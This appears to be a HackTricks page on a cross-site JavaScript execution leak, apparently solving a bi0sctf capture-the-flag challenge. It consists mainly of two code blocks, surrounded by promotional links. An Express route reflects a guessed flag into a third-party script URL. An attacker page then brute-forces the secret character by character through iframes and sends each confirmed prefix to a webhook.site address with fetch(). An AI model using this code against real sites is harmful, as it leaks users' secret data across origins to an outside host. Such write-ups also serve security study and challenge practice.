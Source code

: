 # JavaScript Execution XS Leak

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get('/guessing', function(req, res) {
    let guess = req.query.guess
    let page = `<html>
                <head>
                    <script>
                            function foo() {
                                // If not the flag this will be executed
                                window.parent.foo()
                            }
                        </script>
                    <script src="https://axol.space/search?query=${guess}&hint=foo()"></script>
                </head>
                <p>hello2</p>
                </html>`
    res.send(page)
});
```

Main page that generates iframes to the previous `/guessing` page to test each possibility

```html
<html>
<head>
    <script>
            let candidateIsGood = false;
            let candidate = ''
            let flag = 'bi0sctf{'
            let guessIndex = -1

            let flagChars = '_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ'

            // this will get called from our iframe IF the candidate is WRONG
            function foo() {
                candidateIsGood = false
            }

            timerId = setInterval(() => {
                if (candidateIsGood) {
                    flag = candidate
                    guessIndex = -1
                    fetch('https://webhook.site/<yours-goes-here>?flag='+flag)
                }
                
                //Start with true and will be change to false if wrong
                candidateIsGood = true
                guessIndex++
                if (guessIndex >= flagChars.length) {
                    fetch('https://webhook.site/<yours-goes-here>')
                    return
                }
                let guess = flagChars[guessIndex]
                candidate = flag + guess
                let iframe = `<iframe src="/guessing?guess=${encodeURIComponent(candidate)}"></iframe>`
                console.log('iframe: ', iframe)
                hack.innerHTML = iframe
            }
            , 500);
        </script>
</head>
<p>hello</p>
<div id="hack">
</div>
</html>
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
